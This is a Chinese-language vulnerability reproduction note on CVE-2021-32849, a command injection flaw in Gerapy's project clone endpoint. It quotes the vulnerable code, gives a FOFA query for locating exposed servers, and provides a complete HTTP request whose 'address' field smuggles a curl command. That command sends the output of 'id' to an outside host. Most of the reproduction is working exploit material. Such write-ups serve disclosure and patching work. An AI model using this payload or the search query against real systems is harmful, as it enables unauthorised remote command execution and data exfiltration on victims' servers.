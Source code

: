 # Gerapy clone 后台远程命令执行漏洞 CVE-2021-32849

## 漏洞描述

近日，我司应急团队监测到关于Gerapy 0.9.6和之前的版本中存在注入漏洞，漏洞编号：CVE-2021-32849，该漏洞源于程序没有正确清理通过project_clone端点传递给Popen的输入，攻击者可利用该漏洞执行任意命令。

## 漏洞影响

```
Gerapy <= 0.9.6
```

## FOFA

```
title="Gerapy"
```

## 漏洞复现

登录页面

![image-20220524145040847](./images/202205241450895.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![](./images/202205241450608.png)

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', mcd)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})
```

这里可以看到 address参数 为可控参数，拼接到 cmd中使用 Popen命令执行，构造请求包

```
POST /api/project/clone HTTP/1.1
Host: 
Content-Length: 61
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"address":"http://127.0.0.1;curl xxx.xxx.xxx.xxx:9999?`id`"}
```

![](./images/202205241451576.png)